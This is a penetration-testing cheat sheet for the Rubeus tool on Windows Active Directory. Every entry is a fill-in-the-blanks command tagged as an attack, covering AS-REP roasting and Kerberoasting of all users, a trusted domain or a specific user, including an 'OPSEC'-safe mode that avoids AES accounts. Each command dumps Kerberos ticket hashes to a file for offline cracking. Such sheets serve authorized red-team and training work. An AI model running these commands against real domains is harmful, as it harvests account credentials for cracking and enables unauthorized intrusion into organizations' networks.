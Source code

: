 # rubeus

% ad, windows, rubeus

#plateform/windows #target/local 

## ASREPRoasting - for all users in current domain
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format|hashcat> /outfile:<output_hashes_file>
```

## ASREPRoasting - for all users in a trusted domain
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast /domain:<domain_fqdn> /format:<AS_REP_response_format|hashcat> /outfile:<output_hashes_file>
```

## ASREPRoasting - specific user
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_fqdn> /format:<AS_REP_response_format|hashcat> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting - and outputting on a file with a spesific format
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_fqdn>
```

## Kerberoasting - while being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_fqdn> /rc4opsec
```

## Kerberoast - AES enabled accounts
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_fqdn> /aes
```
 
## Kerberoast - specific user account
#cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_fqdn> /user:<user> /simple
```
